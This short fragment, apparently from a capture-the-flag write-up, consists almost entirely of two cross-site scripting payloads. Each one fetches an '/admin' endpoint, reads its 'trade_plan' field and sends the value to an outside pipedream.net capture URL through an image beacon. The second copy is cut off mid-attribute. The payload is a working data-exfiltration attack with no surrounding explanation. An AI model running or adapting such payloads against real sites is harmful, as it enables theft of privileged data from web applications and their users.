

```
<script>
  fetch('/admin')
    .then(response => response.json())
    .then(data => {
      new Image().src = "https://eo3acfy7jjf8uik.m.pipedream.net/?flag=" + encodeURIComponent(data.trade_plan);
    });
</script>
```
```
 res.json()).then(data => { new Image().src = 'https://eo3acfy7jjf8uik.m.pipedream.net/?flag=' + encodeURIComponent(data.trade_plan); })">
```


